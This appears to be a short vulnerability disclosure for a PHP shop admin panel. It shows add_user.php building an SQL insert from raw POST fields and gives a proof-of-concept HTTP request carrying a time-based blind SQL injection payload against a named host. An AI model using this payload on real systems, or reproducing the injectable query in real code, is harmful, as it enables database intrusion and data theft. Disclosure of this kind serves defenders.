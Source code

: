 ### Vulnerability file address

`admin/add_user.php` from line 7,The $first_name parameter is controllable, the parameter first_name can be passed through post, and the $first_name is not protected from sql injection, resulting in sql injection

```php
if(isset($_POST['btn_save']))
{
$first_name=$_POST['first_name'];
$last_name=$_POST['last_name'];
$email=$_POST['email'];
$user_password=$_POST['user_password'];
$mobile=$_POST['mobile'];
$address1=$_POST['address1'];
$address2=$_POST['address2'];

mysqli_query($con,"insert into user_info(first_name, last_name,email,password,mobile,address1,address2) values ('$first_name','$last_name','$email','$user_password','$mobile','$address1','$address2')") 
			or die ("Query 1 is inncorrect........");
header("location: manage_users.php"); 
mysqli_close($con);
```

### POC

```http
POST /admin/add_user.php HTTP/1.1
Host: www.onsp.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 89
Origin: http://www.onsp.net
Connection: close
Referer: http://www.onsp.net/admin/add_user.php
Cookie: PHPSESSID=acrlvk4ljcqdujn2orbd09in25
Upgrade-Insecure-Requests: 1

first_name=1'+(SELECT 0x6e504162 WHERE 1952=1952 AND (SELECT 6458 FROM (SELECT(SLEEP(5)))rFne))+'&last_name=1&email=1&user_password=1&mobile=1&address1=1&address2=1&btn_save=
```

### Attack results pictures

![image-20220729215019850](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220729215019.png)